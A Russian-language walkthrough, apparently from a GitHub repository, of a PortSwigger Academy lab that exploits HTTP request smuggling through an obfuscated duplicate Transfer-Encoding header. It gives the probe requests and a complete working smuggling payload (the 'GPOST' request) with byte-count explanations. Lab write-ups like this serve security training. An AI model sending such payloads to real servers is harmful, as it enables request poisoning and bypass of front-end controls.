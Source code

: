 Перейдем на уязвимый ресурс

Перейдем на уязвимый ресурс
Откроем `Proxy` -> `HTTP history`

и отправим в Repeater запрос на корневую страницу


Сразу же перейдем на версию HTTP 1.1
и изменим метод запроса на POST 

Тем самым получив такой запрос
```
POST / HTTP/1.1
Host: 0a1f000c040f9a138374462d009b00f0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
и 200 ответ

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/3.%20HTTP%20request%20smuggling%2C%20obfuscating%20the%20TE%20header/pics%20for%20walkthrough/1.png)
Далее благодаря пикче давайте проверим что где работает

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/3.%20HTTP%20request%20smuggling%2C%20obfuscating%20the%20TE%20header/pics%20for%20walkthrough/2.png)
```
POST / HTTP/1.1
Host: 0a1f000c040f9a138374462d009b00f0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```
Так, это нам говорит, что там или `TE+CL` или `TE+TE`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/3.%20HTTP%20request%20smuggling%2C%20obfuscating%20the%20TE%20header/pics%20for%20walkthrough/3.png)

Отлично, проведем второй запрос

```
POST / HTTP/1.1
Host: 0a1f000c040f9a138374462d009b00f0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```
Отлично, пришел 200 респонс код, что означает связку `TE+TE`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/3.%20HTTP%20request%20smuggling%2C%20obfuscating%20the%20TE%20header/pics%20for%20walkthrough/4.png)

Далее найдем пикчу по обфускации TE заголовков и разных вариаций

Выберем 
```
Transfer-Encoding: chunked
Transfer-Encoding: test
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/3.%20HTTP%20request%20smuggling%2C%20obfuscating%20the%20TE%20header/pics%20for%20walkthrough/5.png)

Далее сконфигурируем наш пэйалоад
```
POST / HTTP/1.1
Host: 0a1f000c040f9a138374462d009b00f0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: test

5b
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

x=1

0
```
После выполнения которого получим уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/3.%20HTTP%20request%20smuggling%2C%20obfuscating%20the%20TE%20header/pics%20for%20walkthrough/6.png)

Давайте теперь разберем

сначала нижний запрос
```
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

x=1

0
```
content `length = 6` потому что надо на 1 байт больше, чем имеется, имеется 5 и больше 5 - это 6


![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/3.%20HTTP%20request%20smuggling%2C%20obfuscating%20the%20TE%20header/pics%20for%20walkthrough/7.png)
```
POST / HTTP/1.1
Host: 0a1f000c040f9a138374462d009b00f0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: test

5b
```

5b стоит потому что выделенная часть равна `5b`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/3.%20HTTP%20request%20smuggling%2C%20obfuscating%20the%20TE%20header/pics%20for%20walkthrough/8.png)

Content-Length: 4 потому что `5b\r\n` это 4 байта
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/3.%20HTTP%20request%20smuggling%2C%20obfuscating%20the%20TE%20header/pics%20for%20walkthrough/9.png)
